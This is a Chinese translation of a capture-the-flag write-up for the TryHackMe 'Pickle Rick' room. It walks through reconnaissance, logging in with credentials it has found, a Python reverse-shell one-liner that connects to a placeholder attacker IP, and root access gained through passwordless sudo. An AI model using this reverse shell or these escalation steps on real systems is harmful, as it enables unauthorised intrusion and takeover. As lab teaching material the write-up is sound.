







# 泡菜里克-THM

> 原文：<https://infosecwriteups.com/picke-rick-thm-e8fb33d1f259?source=collection_archive---------4----------------------->

## 侦察:

让我们首先在给定的机器上进行 nmap 扫描，以查看开放的端口。



导航到端口 80，查看源代码，我们得到用户名: *R1ckRul3s。*

在运行 gobuster 时，我们可以看到有一个名为 assets 的目录。让我们去那里。



我们也去/robots.txt 看看能找到什么



Wubbalubbadubdub。无红利

Gobuster 结果:



让我们尝试使用用户名和作为密码的字符串登录。



我们遇到了一个可以执行命令的面板，而“cat”却无法工作！



所以让我们来欺骗一下，用 tac 来代替

在 clue.txt 上使用 tac 会给出如下输出:

```
Look around the file system for the other ingredient.
```

```
tac Sup3rS3cretPickl3Ingred.txt
```

运行这个程序将得到第一个成分作为输出。

现在，让我们使用 python3 脚本获得系统的反向外壳

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

好了，我们有了反向外壳。



使用以下命令使外壳具有交互性

```
/bin/bash -ki
```

在这个 shell 中获取 linpeas.sh 文件并运行它，您将看到 sudo 可以运行任何命令/工具，而不需要密码。或者运行 sudo -l 来查看权限

运行:

```
sudo bash
```

要获得根访问权限，瞧，通过导航到用户主目录来搜索第二个和第三个要素。

约翰·哈蒙德有一个很酷的项目，可以更容易地把文件从你的系统转移到机器上。不用设置 netcat 之类的东西就可以查看这个:[https://github . com/John Hammond/poor-mans-pentest/blob/master/upload _ file _ NC . sh](https://github.com/JohnHammond/poor-mans-pentest/blob/master/upload_file_nc.sh)。

继续黑！

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周时事通讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！